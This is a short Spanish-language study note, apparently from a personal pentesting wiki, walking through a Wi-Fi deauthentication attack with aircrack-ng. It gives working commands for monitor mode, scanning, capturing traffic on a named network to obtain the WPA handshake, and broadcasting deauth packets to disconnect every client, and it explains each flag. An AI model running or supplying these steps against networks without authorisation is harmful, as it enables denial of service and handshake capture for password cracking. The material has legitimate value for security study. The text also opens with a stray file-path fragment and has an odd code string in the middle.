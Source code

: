Esto lo que hace es des autentificar a cualquiera que se encuentre en la red victima

	airmon-ng wlan1 start
Iniciar la tarjeta de red en modo monitor

	airodump-ng wlan1mon
Escanear las redes disponibles
DOB66F5A4CBF

	airodump-ng -w CapturaDeAuthGlobal --essid INFINITUM33B5 wlan1mon
Con esto lo que se hace es capturar todo el trafico que pasa por la red y guardarlo en un archivo, aquí es donde se capturara el [[HandShake]]

	aireplay-ng -0 10 -e INFINITUM33B5 -c FF:FF:FF:FF:FF:FF wlan1mon
Esto manda 10 paquetes de des autentificación a todos los dispositivos conectados al essid proporcionado por medio del [[Broadcast]]
- 0 *especificamos que es un ataque DeAuth*
- 10 *la cantidad de paquetes de dese autentificación enviados*
- e *essid de la red victima*
- c *broadcast* (Este parámetro se puede omitir, ya que Air lo incluye)

Después de esto los dispositivos serán desconectados y reconectados a las red automáticamente, para esto nuestra tarjeta de red habrá capturado el [[HandShake]].